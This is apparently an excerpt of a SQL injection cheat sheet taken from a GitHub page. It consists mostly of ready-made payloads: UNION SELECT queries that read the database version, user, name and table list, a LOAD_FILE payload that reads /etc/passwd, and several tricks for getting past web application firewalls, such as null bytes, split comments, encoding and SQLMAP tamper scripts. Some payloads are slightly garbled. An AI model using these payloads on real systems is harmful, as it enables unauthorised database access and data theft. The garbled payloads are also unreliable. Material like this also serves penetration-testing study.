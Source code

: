 ### 3. Shows version, user and database name

```
   ' AND 1=2 UNION ALL SELECT concat_ws(0x3a,version(),user(),database())
```

### 4. Using group_concat() function, used to concat all the rows of the returned results.

```
   ' union all select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()–
```

## 4. Accessing system files with load_file(). and advance exploitation afterwards :

```
   ' UNION ALL SELECT LOAD_FILE ('/ etc / passwd')
```

## 5. Bypassing WAF :

### 1. Using Null byte before SQL query.

```
    %00' UNION SELECT password FROM Users WHERE username-'xyz'--
```

### 2. Using SQL inline comment sequence.

```
    '/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'--
```

### 3. URL encoding

```
      for example :
    / URL encoded to %2f
    * URL encoded to %2a

    Can also use double encoding, if single encoding doesn't works. Use hex encoding if the rest doesn't work.
```

### 4. Changing Cases (uppercase/lowercase)

-   For more step wise detailed methods, go through the link below.

    https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

### 5. Use SQLMAP tamper scripts. It helps bypass WAF/IDS/IPS.
